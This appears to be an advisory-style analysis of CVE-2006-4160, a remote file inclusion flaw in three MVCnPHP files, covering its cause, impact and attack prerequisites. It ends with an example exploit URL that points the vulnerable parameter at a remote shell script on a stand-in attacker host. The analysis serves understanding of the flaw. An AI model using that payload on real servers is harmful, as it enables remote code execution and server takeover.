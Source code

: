 Based on the provided information, here's an analysis of CVE-2006-4160:

**Root Cause of Vulnerability:**

The vulnerability is due to a lack of proper input sanitization in the `glConf[path_libraries]` parameter within the MVCnPHP application. Specifically, the application uses this parameter to include files, and it doesn't validate if the provided path is local or remote.

**Weaknesses/Vulnerabilities Present:**

*   **Remote File Inclusion (RFI):** The primary vulnerability is that an attacker can supply a URL in the `glConf[path_libraries]` parameter, causing the application to include and execute code from a remote server controlled by the attacker.

**Impact of Exploitation:**

*   **Arbitrary Code Execution:** Successfully exploiting this vulnerability allows the attacker to execute arbitrary PHP code on the server hosting the vulnerable MVCnPHP application. This could lead to a complete compromise of the server.
*   **Data Theft/Manipulation:** With the ability to execute code, the attacker can steal sensitive data, modify databases, or conduct other malicious activities.
*   **Server Takeover:** Through arbitrary code execution, an attacker can gain full control of the web server.

**Attack Vectors:**

*   **HTTP GET Parameter Manipulation:** The vulnerability is exploited by modifying the `glConf[path_libraries]` parameter in the URL of specific PHP files (e.g., BaseCommand.php, BaseLoader.php, BaseView.php).

**Required Attacker Capabilities/Position:**

*   **Network Access:** The attacker needs to be able to make HTTP requests to the vulnerable application.
*   **Knowledge of Vulnerable Parameter:** The attacker must know about the `glConf[path_libraries]` parameter and how to manipulate it.
*   **Remote Server Hosting Malicious Code:** The attacker must have a server where they host a malicious PHP script.

**Summary of technical details:**
The `glConf[path_libraries]` parameter in `BaseCommand.php`, `BaseLoader.php`, and `BaseView.php` of the MVCnPHP application is vulnerable to remote file inclusion, which could lead to arbitrary code execution by an attacker. Example exploit URL:
`http://server/dir_mvcnphp/BaseCommand.php?glConf[path_libraries]=http://evalsite.com/shell.php`